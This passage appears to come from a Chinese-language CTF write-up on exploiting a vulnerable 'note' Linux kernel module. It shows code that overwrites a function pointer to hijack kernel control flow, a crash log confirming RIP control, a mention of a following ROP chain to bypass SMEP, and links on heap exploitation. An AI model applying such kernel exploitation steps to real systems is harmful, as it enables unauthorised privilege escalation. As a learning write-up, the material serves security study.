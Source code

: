 ```
	*((unsigned long*)buffer) = 0xdeadbeef;
	note_write(buffer, 0x20);
	// trigger
	read(sfd, buffer, 1);
```

成功劫持控制流：

```assembly
Modules linked in: note(O)
CR2: 00000000deadbeef
---[ end trace 259da42406172f69 ]---
RIP: 0010:0xdeadbeef
Code: Bad RIP value.
```

之后就是构造ROPchain，绕过SMEP达到提取的目的了。

#### 参考

[Exploit CVE-2016-6178](https://duasynt.com/blog/cve-2016-6187-heap-off-by-one-exploit)

[Linux内核通用堆喷射](https://duasynt.com/blog/linux-kernel-heap-spray)

[Kernel Exploit用到的结构体](https://www.cnblogs.com/helica/p/12572931.html)

